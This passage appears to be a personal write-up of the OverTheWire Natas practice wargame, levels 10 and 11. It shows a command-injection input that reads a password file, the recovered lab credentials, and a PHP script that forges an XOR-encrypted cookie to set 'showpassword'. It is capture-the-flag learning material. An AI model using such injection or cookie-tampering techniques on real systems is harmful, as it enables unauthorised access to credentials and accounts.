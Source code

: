 they now regex match for ; and &, we luckily do not need to use those as we can just get the contents of two files. Lets just get everything they have and input: "." /etc/natas_webpass/natas11

```
Output:
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
...
```

natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK




## level 11

addres:   http://natas11.natas.labs.overthewire.org/
username: natas11
password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

well well
>>>> Cookies are protected with XOR encryption
lol

we get a form, anything we submit is put in a json string XOR encrypted, and base64 encoded.

default:
ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSMX4MNzF%2BaAw%3D

altered:
ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D
ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSFlkrEBZZaAw%3D

had to write a PHP script to solve this because of differences between langs, here is the final snippet

```
$cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSMX4MNzF+aAw=";

$abc = 'abcdefghijklmnopqrstuvwxyz0123456789_-^~=';

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';
    $privkey = 'qw8J';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $privkey[$i % strlen($privkey)];
    }

    return $outText;
}

$d = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

for ($x = 0; $x <= 1; $x++) {
  echo $x, $abc[$x], PHP_EOL;
  echo base64_encode(xor_encrypt(json_encode($d), $abc[$x])), PHP_EOL;
}

```
